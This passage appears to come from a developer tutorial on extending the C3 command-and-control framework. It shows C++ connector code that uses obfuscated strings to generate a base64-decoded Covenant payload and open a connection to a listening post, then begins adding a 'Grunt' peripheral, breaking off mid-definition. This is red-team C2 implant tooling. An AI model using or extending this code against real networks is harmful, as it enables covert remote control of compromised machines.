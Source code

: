 ```c++
				throw std::runtime_error(OBF("[Covenant] Non-200 HTTP code returned: ") + std::to_string(resp.status_code()));
		}
		else
			throw std::runtime_error(OBF("[Covenant] Non-200 HTTP code returned: ") + std::to_string(resp.status_code()));

		auto payload = cppcodec::base64_rfc4648::decode(binary);

		//Finally connect to the socket.
		auto connection = std::make_shared<Connection>(m_ListeningPostAddress, m_ListeningPostPort, std::static_pointer_cast<Covenant>(shared_from_this()), binderId);
		m_ConnectionMap.emplace(std::string{ binderId }, std::move(connection));
		return payload;
	}
	catch(std::exception&)
	{
		throw std::exception(OBF("Error generating payload"));
	}
}

```

## Adding the Grunt Peripheral

As described, when testing the code above we cheated by adding a call the `GeneratePayload` in the connector's constructor. What we actually need to do is add a Peripheral called `Grunt` to C3. In similar fashion to how the Covenant.cpp connector code was developed, we start by copying `/Src/Common/MWR/C3/Interfaces/Peripherals/Beacon.cpp` to `Src/Common/MWR/C3/Interfaces/Peripherals/Grunt.cpp` - the same is done for the header files. 


**Stage 1 - Getting User Input**

In order to get user input that is passed to the Covenant connector `GeneratePayload` method, we need to edit the Grunt Peripheral's `GetCapability` function:

```c++
MWR::ByteView MWR::C3::Interfaces::Peripherals::Grunt::GetCapability()
{
	return R"(
{
	"create":
	{
		"arguments":
		[
			{
				"type": "string",
				"name": "Pipe name",
				"min": 4,
				"randomize": true,
				"description": "Name of the pipe Beacon uses for communication."
			},
			{
				"type": "int32",
				"min": 1,
				"defaultValue" : 30,
				"name": "Delay",
				"description": "Delay"
			},
			{
				"type": "int32",
				"min": 0,
				"defaultValue" : 30,
				"name": "Jitter",
```
